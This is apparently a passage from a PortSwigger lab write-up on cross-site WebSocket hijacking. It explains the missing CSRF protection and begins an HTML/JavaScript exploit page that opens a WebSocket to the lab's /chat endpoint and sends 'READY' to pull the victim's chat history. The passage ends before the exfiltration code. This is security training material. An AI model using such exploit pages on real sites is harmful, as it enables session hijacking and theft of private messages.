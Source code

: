 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113201211.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113201218.png)

In the above WebSocket requests, we can see that **it’s vulnerable to CSRF(Cross-Site Request Forgery), as there is no CSRF token or unpredictable values in request parameters.**

**Then, we can refresh the page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113203555.png)

It'll send a `READY` message to render all chat messages.

If the WebSocket handshake request is vulnerable to CSRF, then an attacker’s web page can perform a cross-site request to open a WebSocket on the vulnerable site!

**To do so, I’ll craft a HTML form that automatically send a WebSocket request to `/chat` with message `READY`, and exfiltrate the victim’s chat history:**
```html
<html>
    <head>
        <title>CSRF-9</title>
    </head>
    <body>
        <script>
            // Create a new WebSocket object that points to /chat endpoint
            var webSocket = new WebSocket('wss://0a200002035e04ccc0cea048008a00db.web-security-academy.net/chat');
            webSocket.onopen = function() {
                // Send "READY" message to /chat to render the chat history
                webSocket.send("READY");
            };
```
